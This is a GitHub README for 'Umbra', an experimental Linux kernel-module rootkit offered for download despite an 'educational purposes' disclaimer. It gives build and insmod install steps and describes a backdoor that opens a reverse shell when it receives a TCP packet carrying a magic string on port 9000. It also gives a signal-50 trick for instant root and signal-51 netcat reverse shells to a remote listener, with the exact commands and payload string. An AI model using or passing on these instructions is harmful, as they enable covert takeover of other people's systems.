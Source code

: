 ![GitHub release (latest by date including pre-releases)](https://img.shields.io/github/v/release/h3xduck/Umbra?include_prereleases)
![Maintainability](https://img.shields.io/static/v1?label=maintainability&message=B&color=green)
![GitHub code size in bytes](https://img.shields.io/github/languages/code-size/h3xduck/Umbra)
![GitHub last commit](https://img.shields.io/github/last-commit/h3xduck/Umbra)

# Umbra

Umbra (/ˈʌmbrə/) is an experimental LKM rootkit for kernels 4.x and 5.x (up to 5.7) which opens a network backdoor that spawns reverse shells to remote hosts and more.

The rootkit is still under development, although the features listed below are already fully operational.

Note: This rootkit has been developed and tested using kernel 5.4.0 and Ubuntu 18.04.

## Features
* **NEW**: Backdoor which spawns reverse shell to remote IP after receiving specially crafter TCP packet.
* Privilege escalation by sending signal 50.
* Spawn netcat reverse shell on module load.
* Spawn netcat reverse shell to a remote host by sending signal 51.

More functionalities will come in later updates.

## Disclaimer
This rookit is **purely for educational purposes**. I am not responsible for any damage resulting from its unintended use.

Also bear in mind that Umbra does not incorporate any rootkit hiding or protection mechanisms yet.

**IMPORTANT:** If you are going to test this rootkit in your own machine, I *strongly recommend* to use a VM. 

## Build and install
Remember that you should have a 4.x or 5.x kernel available.
1. Download your kernel header files
```sh
apt install linux-headers-$(uname -r)
```
2.Configure your include path to cover the kernel header directory (usually under /usr/src). If you are using vscode, you can check ```.vscode/c_cpp_properties.json``` for an example on which directories to include.

3. Clone the project
```
git clone https://github.com/h3xduck/Umbra.git
cd Umbra
```
4. Build Umbra
```
make
```
5. Load Umbra in the kernel
```
sudo insmod ./umbra.ko
```

## Unloading Umbra
```
sudo rmmod umbra
```

## Usage
### Change current user privileges to root
* Send signal 50 to any PID.
```
kill -50 1
```

### Start reverse netcat shell to IP:PORT
* Set your desired IP and port in CONFIG.H before building the rootkit. By default 127.0.0.1:5888

* Start listening at the remote host.
```
nc -lvp 5888
```
* Send signal 51 to any PID. Umbra will catch it and start the shell.
```
kill -51 1
```
<img src="images/kill51screenshot.png" width = 800/>

Note: Umbra also tries to start the reverse shell on load.

### Spawn reverse shell via backdoor
Any host can get a reverse shell by sending a specially-crafted packet to a machine infected with Umbra. The backdoor will try to open the shell on IP:5888, where IP is the IP address of the attacking machine.

The packet must meet the following criteria:
* Uses TCP protocol
* Sent to port 9000, where backdoor listens
* Payload starts with string UMBRA_PAYLOAD_GET_REVERSE_SHELL

Example of execution:



## References
The development of this rootkit involved a substantial amount of research about LKMs and rootkit techniques. The following is an incomplete list of the resources I used:
How to create LKMs:
* https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html

Linux syscall reference:
* https://syscalls64.paolostivanin.com/

Some rootkit references:
* https://xcellerator.github.io/posts/
* https://web.archive.org/web/20160620231623/http://big-daddy.fr/repository/Documentation/Hacking/Security/Malware/Rootkits/writing-rootkit.txt
* https://github.com/f0rb1dd3n/Reptile

## License
This project is licensed under the GPLv2 license. See [LICENSE](https://github.com/h3xduck/Umbra/blob/master/LICENSE)
